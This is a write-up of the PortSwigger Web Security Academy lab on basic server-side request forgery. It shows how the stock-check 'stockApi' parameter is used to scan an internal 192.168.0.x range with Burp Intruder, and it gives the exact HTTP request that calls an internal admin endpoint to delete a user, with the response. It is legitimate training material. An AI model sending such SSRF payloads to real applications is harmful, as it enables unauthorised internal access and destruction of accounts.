

## Basic SSRF against another back-end system

**Title:** Basic SSRF against another back-end system. [Go](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.
 
## Preface

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. The back-end systems are normally protected by the network topology, so they often have a weaker security posture. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems.

In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin`. An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

```HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

We visited a product page and intercepted the "Check stock" request in Burp Suite and sent it to Burp Intruder. Then we changed the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlighted the final octet of the IP address (the number 1), clicked "Add §". In Payloads tab, we changed the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively. Clicked the "Start attack" button. After clicking on the "Status" column to sort it by status code ascending. We should see a single entry with a status of 200, showing an admin interface.
We sent the request to Burp Repeater, and changed the path in the `stockApi` to: `/admin/delete?username=carlos`.



**Request**
```HTTP
POST /product/stock HTTP/2
Host: 0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Cookie: session=2EscN7nbRQMxnFKDC9M5Ual4253ORXiR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net/product?productId=11
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.38:8080/admin/delete?username=carlos&storeId=1
```

**Response**
```HTTP
HTTP/2 302 Found
Location: http://192.168.0.38:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
